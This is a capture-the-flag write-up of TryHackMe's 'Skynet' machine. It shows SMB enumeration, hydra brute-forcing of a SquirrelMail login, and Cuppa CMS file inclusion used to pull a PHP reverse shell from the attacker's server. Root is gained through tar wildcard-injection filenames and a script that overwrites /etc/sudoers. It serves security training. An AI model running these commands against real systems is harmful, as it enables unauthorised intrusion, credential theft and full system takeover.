# Skynet
**Date:** October 27th 2022

**Author:** j.info

**Link:** [**Skynet**](https://tryhackme.com/room/skynet) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>



<br>

## Objectives
- What is Miles password for his emails?
- What is the hidden directory?
- What is the vulnerability called when you can include a remote file for malicious purposes?
- What is the user flag?
- What is the root flag?

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: UIDL RESP-CODES PIPELINING TOP SASL AUTH-RESP-CODE CAPA
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: have more post-login ID listed Pre-login LOGIN-REFERRALS IDLE IMAP4rev1 capabilities SASL-IR OK LOGINDISABLEDA0001 ENABLE LITERAL+
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h41m17s, deviation: 2h53m12s, median: 1m17s
| smb2-time: 
|   date: 2022-10-27T23:58:49
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2022-10-27T18:58:49-05:00
```

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 30 -r -x php,txt,html -w dir-med.txt`

```
/admin                (Status: 403) [Size: 277]
/config               (Status: 403) [Size: 277]
/css                  (Status: 403) [Size: 277]
/js                   (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 523]
/ai                   (Status: 403) [Size: 277]
/squirrelmail         (Status: 200) [Size: 2912]
```

<br>

## SMB Digging

I take a look at what shares are available via SMB:

`smbclient -L //10.10.38.143`

```
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        anonymous       Disk      Skynet Anonymous Share
        milesdyson      Disk      Miles Dyson Personal Share
        IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
```

Looking at the anonymous share:

`smbclient -N //$ip/anonymous`

```
smb: \> ls
  .                                   D        0  Thu Nov 26 11:04:00 2020
  ..                                  D        0  Tue Sep 17 03:20:17 2019
  attention.txt                       N      163  Tue Sep 17 23:04:59 2019
  logs                                D        0  Wed Sep 18 00:42:16 2019

                9204224 blocks of size 1024. 5822368 blocks available
```

I decide to just mget everything on the share:

```
smb: \> prompt
smb: \> recurse
smb: \> mget *
getting file \attention.txt of size 163 as attention.txt (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
getting file \logs\log2.txt of size 0 as logs/log2.txt (0.0 KiloBytes/sec) (average 0.4 KiloBytes/sec)
getting file \logs\log1.txt of size 471 as logs/log1.txt (1.5 KiloBytes/sec) (average 0.6 KiloBytes/sec)
getting file \logs\log3.txt of size 0 as logs/log3.txt (0.0 KiloBytes/sec) (average 0.6 KiloBytes/sec)
```

I'm not able to connect to the milesdyson share.

Looking at the attention.txt file:

```
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

And the log1.txt file is the only other file with something in it, and it looks like a wordlist:

```
cyborg007haloterminator
terminator22596
terminator219
terminator20
---SNIP---
```

I use crackmapexec to enumerate usersnames on the SMB share:

`crackmapexec smb $ip -u anonymous -p "" --users`



I try and use hydra to login as milesdyson on the smb server with the log1.txt wordlist but it's not successful. It doesn't work for ssh either.

<br>

## Website Digging

Visiting the main page:



Checking out /squirrelmail:



I see if I can brute force my way into squirrelmail with the log1.txt password list and a username of milesdyson using hydra:

`hydra -l milesdyson -P log1.txt $ip http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."`

```
[80][http-post-form] host: 10.10.38.143   login: milesdyson   password: <REDACTED>
```

You can also use Burp intruder to crack the password if you'd prefer that route.

Logging into squirrelmail with the credentials we just found:



And looking at the emails:







Decoding the binary from the middle email gives us:



<br>

## More SMB Digging

I login to the SMB share milesdyson that we couldn't access before:

`smbclient //$ip/milesdyson -u milesdyson -p`

Looking through the files there are some machine learning / ai .pdf files and a directory called notes. In the notes directory are a lot of markdown .md files, and a file called important .txt:

```
  important.txt                       N      117  Tue Sep 17 05:18:39 2019
```

Looking at the contents of that file:

```
1. Add features to beta CMS <REDACTED>
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

Visiting the website with the directory found in the file:


Running another gobuster, this time on the hidden directory:

```
/administrator        (Status: 200) [Size: 4945]
/index.html           (Status: 200) [Size: 418]
```

Checking out /administrator brings us to a Cuppa CMS login page:



I check to see if I can login as milesdyson with either of the 2 passwords we have and neither work.

I check out searchsploit to see if there are any known vulnerabilities for this CMS and there is a file inclusion exploit:

`searchsploit cuppa`

```
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion       | php/webapps/25971.txt
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We can use LFI to view files on the system:

```
view-source:http://10.10.38.143/<REDACTED>/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../etc/passwd

Other than root milesdyson is the only user on the system:

milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash
```

But more importantly we can use RFI to get a shell on the system. We can point it to a reverse php shell on our system and it will go there and execute the code.

I start up a simple python3 http server on my system:

`python3 -m http.server 80`

I then use the vulnerable URL we used above but point it to my webserver and file:

```
http://10.10.38.143/<REDACTED>/administrator/alerts/alertConfigField.php?urlConfig=http://10.6.0.242/p.php
```

And my server shows the webserver reaching out to my server and getting the file:

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.38.143 - - [27/Oct/2022 21:41:07] "GET /p.php HTTP/1.0" 200 -
```

<br>

## System Access

And finally the listener catches the reverse shell:

```
listening on [any] 4444 ...
connect to [10.6.0.242] from (UNKNOWN) [10.10.38.143] 54566
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 20:42:43 up  1:45,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1259): Inappropriate ioctl for device
bash: no job control in this shell
www-data@skynet:/$
```

And we're in! Fixing my shell:

```
www-data@skynet:/$ which python3
which python3
/usr/bin/python3
www-data@skynet:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@skynet:/$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                                                        
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 4444

www-data@skynet:/$ export TERM=xterm-256color
```

<br>

## System Enumeration

Checking `sudo -l` shows we can't run it without a password.

Looking in the /home/milesdyson directory shows us the user.txt flag:

`wc -c /home/milesdyson/user.txt`

```
33 /home/milesdyson/user.txt
```

There is a backups directory in his home directory with the following in it:

```
-rwxr-xr-x 1 root       root            74 Sep 17  2019 backup.sh
-rw-r--r-- 1 root       root       4679680 Oct 27 21:04 backup.tgz
```

Interesting. A root owned bash script that we can execute.

Looking at the script:

```
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

So this will create a backup of the html directory with the tar command as root. Backup jobs are usually scheduled so I take a look at the crontab file and it's listed and running once every minute:

`cat /etc/crontab`

```
# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
```

I do some google searching for ways to exploit tar and find that if the tar command has a wildcard in it, which this does, and you can write to the directory that the tar command is executing against you can add a couple files that force it to run commands of your choosing. This is called wildcard injection and you can [**read more about it here.**](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

To exploit this I'm going to create a bash script and then add the files that tell the tar command to run my script. And these will be ran as root since the backup job runs as root.

I change to the /var/www/html/ directory and add this to privesc.sh, and then chmod +x it:

```
#!/bin/bash
echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers
```

And create the two required files:

`echo "" > "--checkpoint-action=exec=sh privesc.sh"`

`echo "" > --checkpoint=1`

Looking at the files in the directory to make sure these created with no issues:

```
-rw-rw-rw- 1 www-data www-data     1 Oct 28 07:49 --checkpoint-action=exec=sh privesc.sh
-rw-rw-rw- 1 www-data www-data     1 Oct 28 07:49 --checkpoint=1
```

I wait for a minute so that the cron job will run and check `sudo -l`:

```
User www-data may run the following commands on skynet:
    (root) NOPASSWD: ALL
```

It worked! We now have full sudo privileges without needing a password.

<br>

## Root

I run a simple `sudo bash` command and escalate to root:

```
www-data@skynet:/var/www/html$ sudo bash
root@skynet:/var/www/html# whoami
root
root@skynet:/var/www/html# hostname
skynet
```

And in /root we find the root.txt flag waiting for us:

`wc -c /root/root.txt`

```
33 /root/root.txt
```

<br>

With that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Using **smbclient** to pull sensitive information off of an unprotected SMB share
- Enumerating SMB with **crackmapexec** to find valid usernames
- Brute forcing our way into a **Squirrelmail** website with **hydra** using a username we found on SMB
- In Squirrelmail we find a **password reset email* that includes the new password for a user in SMB that we couldn't access previously
- Accessing a **password protected SMB share** and finding a hidden website directory that leads to a **Cuppa CMS** website
- Finding **LFI and RFI** vulnerabilities for the version of the CMS running and using them to obtain an initial foothold on the system (CVE-2022-25486)
- Discovering a cron job that creates a backup of the /var/www/html directory every minute using a bash script, and this runs as root
- Using **wildcard injection** to get the tar command to run commands we want as the root user and escalting to root with it

<br>

Many thanks to:
- **TryHackMe** for creating and hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)